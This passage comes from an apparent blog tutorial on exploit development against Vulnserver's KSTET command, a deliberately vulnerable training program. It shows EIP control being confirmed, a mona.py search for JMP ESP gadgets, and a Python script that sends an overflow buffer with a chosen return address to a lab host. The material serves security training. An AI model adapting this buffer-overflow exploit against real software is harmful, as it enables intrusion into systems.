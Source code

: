 And run it:

<div class="imgblock">

![Cyclic pattern](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331196/blog/vulnserver-kstet-alternative/offset2_rbtocx.gif)

</div>

Wonderful\! We know exactly how to overwrite `EIP` to get control over
the execution flow.

## Exploiting

As with the [TRUN](../vulnserver-trun/) and [GTER](../vulnserver-gter/)
commands, we have a direct `EIP` overwrite here, and the `ESP` register
points directly to our controlled buffer. That means that we can look
for a `JMP ESP` instruction and overwrite `EIP` with its address to take
control of the execution flow. We can do that using `mona.py` plugin:

``` console
!mona jmp -r esp -cp nonull -o
```

This would tell `mona` to look for instructions that can be used to jump
to `ESP` (`jmp -r esp`), excluding pointers with null bytes (`-cp
nonull`) and omitting OS DLLs (`-o`). The result is the following:

<div class="imgblock">

![JMP ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331197/blog/vulnserver-kstet-alternative/mona1_ym7y00.webp)

</div>

We can choose any of those 9 pointers. I’ll choose the one at
`625011BB`.

Now, we can update the exploit with that address:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```
